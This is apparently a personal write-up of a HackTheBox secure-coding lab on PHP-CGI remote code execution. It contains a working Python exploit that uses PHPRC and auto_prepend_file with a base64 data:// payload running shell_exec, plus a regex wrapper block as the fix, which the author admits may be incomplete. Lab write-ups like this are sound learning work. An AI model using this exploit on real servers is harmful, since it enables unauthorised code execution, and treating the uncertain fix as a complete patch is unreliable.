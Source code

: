 ```yaml
---
date: March 21, 2025
description: fixing some RCE in php cgi
platform: HackTheBox
categories: Secure Coding
tags:
---
```


#php-cgi #RCE #php 

# Vulnerability 


exploit.py
```python
#!/usr/bin/env python3

# Modules
import requests, base64, urllib.parse
URL = "http://127.0.0.1:8081"

payload = b'<? shell_exec("id > /www/application/out.txt"); ?>'
data_url = f"data://text/plain;base64,{base64.b64encode(payload).decode()}"
data = {
    "data":urllib.parse.quote(f"allow_url_include=1\nauto_prepend_file=\"{data_url}\"")
}

response = requests.post(f"{URL}/cgi-bin/app.cgi?PHPRC=/dev/fd/0", data=data)
print("[*] HTTP Status:", response.status_code)
response = requests.get(f"{URL}/out.txt")

if (response.status_code != 200):
    print("[-] Exploit failed!")
    exit()

print("[+] Data: ", response.text)
```

# Fix 
added add validation in index app.cgi file 
not enitrely sure if this fixes it but i just disabled some php wrappers 
```php
    if (preg_match('/^(https?|data|input|php|file|glob|phar|zip|zlib|compress):\/\//i', $data)) {
        echo "Failed to execute PHP with PHPRC: " . htmlspecialchars($phprc);
        exit;
    }
```

similar to the exploit https://www.exploit-db.com/exploits/18836 
